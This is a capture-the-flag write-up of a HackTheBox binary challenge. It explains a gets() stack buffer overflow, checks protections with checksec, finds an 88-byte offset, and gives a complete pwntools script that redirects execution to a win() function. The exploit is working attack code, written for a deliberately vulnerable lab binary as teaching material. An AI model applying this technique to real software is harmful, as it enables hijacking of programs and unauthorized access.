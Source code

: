 ```yaml
---
layout: post
title: "Jumpio Adventure CTF Writeup"
date: 2025-07-26 01:18:00 +0300
categories: [HackTheBox, CTFs]
tags: [cybersecurity, reverse, hackthebox, prolabs, stacksmash]
---
```


# 🎰 Jumpio-Adventure CTF Writeup

In this writeup, I’ll walk you through how I solved the **Jumpio-Adventure** CTF binary challenge. This challenge is great for practicing **pwntools** and classic buffer overflow techniques. Let’s jump in!

---

## 📂 Inspecting the Zip File

The provided zip archive contains two files:

- `jumpios_adventure`: The main binary
- `flag`: A decoy file (not the real flag)

---

## 🧠 Initial Analysis

The binary is quite small, so I initially tried uploading it to [dogbolt](https://dogbolt.org) for a quick disassembly. However, I found that **Ghidra** provided a more readable decompilation and analysis experience.

---

## ⚠️ The Danger of `gets()`

Upon analyzing the binary, I noticed it uses the `gets()` function to read user input. This function is inherently unsafe because it doesn’t check for buffer boundaries, making the binary **vulnerable to buffer overflow** attacks. This is our potential attack vector.

---

## 🔐 Security Features Check

Next, we run `checksec` to understand the binary's memory protection features:

```sh
┌──(marius㉿marius)-[~/Desktop]
└─$ pwn checksec jumpios_adventure 
[*] '/home/marius/Desktop/jumpios_adventure'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
````

### Key Takeaways:

* ✅ **No stack canary**: Makes stack smashing possible.
* ✅ **No PIE**: Function addresses are static → easier exploitation.
* ✅ **NX enabled**: We can’t execute shellcode on the stack → but we can jump to existing functions like `win()`.
* ✅ **Not stripped**: Function symbols are available → makes identifying functions easier.

---

## 🎯 Finding the Target: `win()` Function

We search for the `win()` function in the symbol table:

```sh
┌──(marius㉿marius)-[~/Desktop]
└─$ nm jumpios_adventure | grep " win"
000000000040154f T win
```

The `win()` function is located at address `0x40154f`. Based on analysis, calling this function will print the flag using `cat flag.txt`.

<pre>Although we’re referencing C code examples, you can identify similar patterns at the assembly level.</pre>

---

## 🎮 Understanding the Game Logic

When you run the binary, it starts a fight-style game. You begin with 10 damage points, and you can **drink potions** to increase your attack power. Once you defeat the enemy, you’re prompted to **enter your name**—this is where the vulnerable `gets()` is triggered.

### Exploitation Plan:

1. Start the fight.
2. Drink 5 potions to increase attack power.
3. Attack once (enemy dies).
4. When asked to enter your name, provide a crafted payload that overflows the buffer and jumps to `win()`.

---

## 🔍 Finding the Overflow Offset

We use `cyclic` patterns to find the exact point where our input overwrites the return address:

```sh
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaa...
pwndbg> run
```

Once the program crashes, we identify the offset:

```bash
pwndbg> python -c "from pwn import *; print(cyclic_find('kaaa'))"
88
```

This tells us the return address is overwritten after 88 bytes of input. Perfect!

---

## 🧪 Final Exploit using Pwntools

Now that we have the offset and the target function address, we can craft our exploit:

```python
from pwn import *
import time

e = ELF('./jumpios_adventure')
r = remote("HOST", PORT)  # Replace with actual host and port

payload = b"A" * 88 + p64(e.sym.win)  # 88-byte padding + address of win()

# Navigating the game menu
r.sendlineafter(b'> ', b'1')  # Start Fight
for _ in range(5):
    r.sendlineafter(b'> ', b'4')  # Drink Potion
r.sendlineafter(b'> ', b'5')      # Show Options
r.sendlineafter(b'> ', b'1')      # Attack (Punch)

# Trigger the vulnerable input
r.sendlineafter(b'name: ', payload)

# Switch to interactive mode to catch the flag output
r.interactive()
```

---

## 🏁 Conclusion

Through this challenge, we practiced:

* Identifying unsafe functions (`gets`)
* Using `checksec` to evaluate binary protections
* Finding buffer overflow offsets with cyclic patterns
* Writing a working exploit using pwntools
* Hijacking program execution flow to trigger a hidden flag-revealing function

This kind of binary is perfect for beginners looking to understand real-world exploitation concepts in a CTF setting. Thanks for reading, and see you in the next writeup!

---

